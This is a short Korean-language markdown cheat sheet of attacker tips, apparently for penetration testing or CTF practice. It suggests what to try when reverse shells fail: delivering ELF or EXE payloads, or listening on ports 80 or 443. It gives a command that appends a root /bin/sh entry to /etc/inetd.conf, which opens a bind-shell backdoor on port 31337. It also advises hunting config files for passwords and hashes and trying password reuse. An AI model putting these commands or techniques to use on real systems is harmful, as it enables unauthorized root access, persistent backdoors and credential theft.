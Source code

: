 # 리버스 셸 연결이 안될 때
- nc/bash/python3 등 리버스 연결이 되지 않는다면 elf 파일 혹은 exe 파일을 만들어서 전달해서 실행시켜보기.
- 리스닝 포트를 well knwon 포트(80,443 등)로 바꿔서 받아보기.

# inetd.conf(옛날 리눅스 환경)
`
echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf"
`

- 31337번 포트로 바인드 셸 연결

---

- config 파일을 먼저 find로 모두 찾아본 뒤에 패스워드 혹은 해시가 적혀 있는지 확인

- password reuse
